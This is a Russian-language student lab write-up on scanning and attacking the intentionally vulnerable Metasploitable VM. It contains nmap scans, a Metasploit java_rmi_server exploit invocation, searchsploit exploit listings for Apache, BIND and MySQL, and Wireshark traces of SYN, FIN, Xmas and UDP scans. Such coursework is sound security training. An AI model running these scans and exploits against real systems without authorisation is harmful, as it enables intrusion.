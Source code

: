 ### Задание 1

Скачайте и установите виртуальную машину Metasploitable: https://sourceforge.net/projects/metasploitable/.
Это типовая ОС для экспериментов в области информационной безопасности, с которой следует начать при анализе уязвимостей.
Просканируйте эту виртуальную машину, используя **nmap**.
Попробуйте найти уязвимости, которым подвержена эта виртуальная машина.
Сами уязвимости можно поискать на сайте https://www.exploit-db.com/.
Для этого нужно в поиске ввести название сетевой службы, обнаруженной на атакуемой машине, и выбрать подходящие по версии уязвимости.

Ответьте на следующие вопросы:

- Какие сетевые службы в ней разрешены?
- Какие уязвимости были вами обнаружены? (список со ссылками: достаточно трёх уязвимостей)
  
*Приведите ответ в свободной форме.*  
#### Решение 1

```
nmap -A 192.168.1.36

1099/tcp open  java-rmi    GNU Classpath grmiregistry

msfconsole
use exploit/multi/misc/java_rmi_server
set RHOST 192.168.1.36
exploit

msf > searchsploit bind 9.4.2
[*] exec: searchsploit bind 9.4.2

------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
BIND 9.4.1 < 9.4.2 - Remote DNS Cache Poisoning (Metasploit)            | multiple/remote/6122.rb
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results


sf > searchsploitapache 2.2.8
[-] Unknown command: searchsploitapache. Run the help command for more details.
msf > searchsploit apache 2.2.8
[*] exec: searchsploit apache 2.2.8

------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution         | php/remote/29290.c
Apache + PHP < 5.3.12 / < 5.4.2 - Remote Code Execution + Scanner       | php/remote/29316.py
Apache < 2.0.64 / < 2.2.21 mod_setenvif - Integer Overflow              | linux/dos/41769.txt
Apache < 2.2.34 / < 2.4.27 - OPTIONS Memory Leak                        | linux/webapps/42745.py
Apache CXF < 2.5.10/2.6.7/2.7.4 - Denial of Service                     | multiple/dos/26710.txt
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuck.c' Remote Buffer Overflow    | unix/remote/21671.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow  | unix/remote/47080.c
Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow  | unix/remote/764.c
Apache OpenMeetings 1.9.x < 3.1.0 - '.ZIP' File Directory Traversal     | linux/webapps/39642.txt
Apache Struts 2 < 2.3.1 - Multiple Vulnerabilities                      | multiple/webapps/18329.txt
Apache Struts 2.0.1 < 2.3.33 / 2.5 < 2.5.10 - Arbitrary Code Execution  | multiple/remote/44556.py
Apache Struts < 1.3.10 / < 2.3.16.2 - ClassLoader Manipulation Remote C | multiple/remote/41690.rb
Apache Struts2 2.0.0 < 2.3.15 - Prefixed Parameters OGNL Injection      | multiple/webapps/44583.txt
Apache Tomcat < 5.5.17 - Remote Directory Listing                       | multiple/remote/2061.txt
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal                     | unix/remote/14489.c
Apache Tomcat < 6.0.18 - 'utf8' Directory Traversal (PoC)               | multiple/remote/6229.txt
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Uplo | jsp/webapps/42966.py
Apache Tomcat < 9.0.1 (Beta) / < 8.5.23 / < 8.0.47 / < 7.0.8 - JSP Uplo | windows/webapps/42953.txt
Apache Xerces-C XML Parser < 3.1.2 - Denial of Service (PoC)            | linux/dos/36906.txt
Webfroot Shoutbox < 2.32 (Apache) - Local File Inclusion / Remote Code  | linux/remote/34.pl
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

sf > searchsploit mysql 5.0
[*] exec: searchsploit mysql 5.0

------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                          |  Path
------------------------------------------------------------------------ ---------------------------------
MySQL 4.1.18/5.0.20 - Local/Remote Information Leakage                  | linux/remote/1742.c
MySQL 4.1/5.0 - Authentication Bypass                                   | multiple/remote/24250.pl
MySQL 4.1/5.0 - Zero-Length Password Authentication Bypass              | multiple/remote/311.pl
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2) | linux/local/1518.c
MySQL 4.x/5.0 (Windows) - User-Defined Function Command Execution       | windows/remote/3274.txt
MySQL 5.0.18 - Query Logging Bypass                                     | linux/remote/27326.txt
MySQL 5.0.20 - COM_TABLE_DUMP Memory Leak/Remote Buffer Overflow        | linux/remote/1741.c
MySQL 5.0.45 - 'Alter' Denial of Service                                | multiple/dos/4615.txt
MySQL 5.0.45 - (Authenticated) COM_CREATE_DB Format String (PoC)        | multiple/dos/9085.txt
MySQL 5.0.75 - 'sql_parse.cc' Multiple Format String Vulnerabilities    | linux/dos/33077.c
MySQL 5.0.x - IF Query Handling Remote Denial of Service                | linux/dos/30020.txt
MySQL 5.0.x - Single Row SubSelect Remote Denial of Service             | linux/dos/29724.txt
MySQL < 5.6.35 / < 5.7.17 - Integer Overflow                            | multiple/dos/41954.py
MySQL < 5.6.35 / < 5.7.17 - Integer Overflow                            | multiple/dos/41954.py
MySQL MaxDB Webtool 7.5.00.23 - Remote Stack Overflow                   | windows/remote/960.c
Oracle MySQL < 5.1.49 - 'DDL' Statements Denial of Service              | linux/dos/34522.txt
Oracle MySQL < 5.1.49 - 'WITH ROLLUP' Denial of Service                 | multiple/dos/15467.txt
Oracle MySQL < 5.1.49 - Malformed 'BINLOG' Arguments Denial of Service  | linux/dos/34521.txt
Oracle MySQL < 5.1.50 - Privilege Escalation                            | multiple/remote/34796.txt
Symantec Web Gateway 5.0.3.18 - Blind SQL Injection Backdoor via MySQL  | php/webapps/20044.txt
------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results

```
![Ex1. Scan nmap](image.png)
![Ex1. Эксплуатация](image-1.png)


### Задание 2

Проведите сканирование Metasploitable в режимах SYN, FIN, Xmas, UDP.
Запишите сеансы сканирования в Wireshark.

Ответьте на следующие вопросы:

- Чем отличаются эти режимы сканирования с точки зрения сетевого трафика?
- Как отвечает сервер?

*Приведите ответ в свободной форме.*

#### Решение 2

'''
SYN / nmap -sS 192.168.17.129

На сервер отправляется TCP SYN пакет
    9	0.088487543	192.168.17.128	192.168.17.129	TCP	58	40749 → 80 [SYN] Seq=0 Win=1024 Len=0 MSS=1460
Если порт открыт, сервер отправляет SYN-ACK ответ
    19	0.089008908	192.168.17.129	192.168.17.128	TCP	60	80 → 40749 [SYN, ACK] Seq=0 Ack=1 Win=5840 Len=0 MSS=1460
Далее клиент закрывает сессию, отправляет RST пакет
    23	0.089040412	192.168.17.128	192.168.17.129	TCP	54	40749 → 80 [RST] Seq=1 Win=0 Len=0

Если порт закрыт, то сервер отвечает RST-ACK пакетом:
    58	0.089756896	192.168.17.129	192.168.17.128	TCP	60	256 → 40749 [RST, ACK] Seq=1 Ack=1 Win=0 Len=0

FIN / nmap -sF 192.168.1.36
Клиент отправляет FIN пакет на сервер
    9	8.223357316	192.168.17.128	192.168.17.129	TCP	54	48610 → 1025 [FIN] Seq=1 Win=1024 Len=0
    11	8.223459805	192.168.17.128	192.168.17.129	TCP	54	48610 → 80 [FIN] Seq=1 Win=1024 Len=0
Если порт открыт, то 
    ответа нет
Если порт закрыт, то в ответ получаем RST, ACK пакет:
    19	8.224037011	192.168.17.129	192.168.17.128	TCP	60	1025 → 48610 [RST, ACK] Seq=1 Ack=2 Win=0 Len=0

Xmas / nmap -sX 192.168.1.36
Клиент отправляет пакет с FIN, PSH, URG флагами
    2036	11.340096024	192.168.17.128	192.168.17.129	TCP	54	59128 → 80 [FIN, PSH, URG] Seq=1 Win=1024 Urg=0 Len=0
    2038	11.340112665	192.168.17.128	192.168.17.129	TCP	54	59128 → 1025 [FIN, PSH, URG] Seq=1 Win=1024 Urg=0 Len=0
Если порт открыт
    ответа нет
Если порт закрыт, то в ответ приходит пакет с RST, ACK флагами
    2043	11.340409836	192.168.17.129	192.168.17.128	TCP	60	1025 → 59128 [RST, ACK] Seq=1 Ack=2 Win=0 Len=0

UDP / nmap -sU 192.168.1.36 -p 50-150
Клиент отправляет на сервер UDP пакет
    5	0.140074345	192.168.17.128	192.168.17.129	UDP	82	63356 → 35794 Len=40
Если порт открыт, то приходит udp ответ
    539	172.098615908	192.168.17.129	192.168.17.255	BROWSER	285	Local Master Announcement VM-NIX-META01, Workstation, Server, Print Queue Server, Xenix Server, NT Workstation, NT Server, Master Browser
        User Datagram Protocol, Src Port: 138, Dst Port: 138
    540	172.098615925	192.168.17.129	192.168.17.255	BROWSER	256	Domain/Workgroup Announcement WORKGROUP, NT Workstation, Domain Enum
        User Datagram Protocol, Src Port: 138, Dst Port: 138
Если порт закрыт, то ICMP пакет с инфо о недоступности порта
    15	0.140475655	192.168.17.129	192.168.17.128	ICMP	110	Destination unreachable (Port unreachable)
       User Datagram Protocol, Src Port: 63356, Dst Port: 35794

UDP сканирование самое долгое.
'''

![SYN](image-2.png)
![FIN](image-3.png)
![Xmas](image-4.png)
![UDP](image-5.png)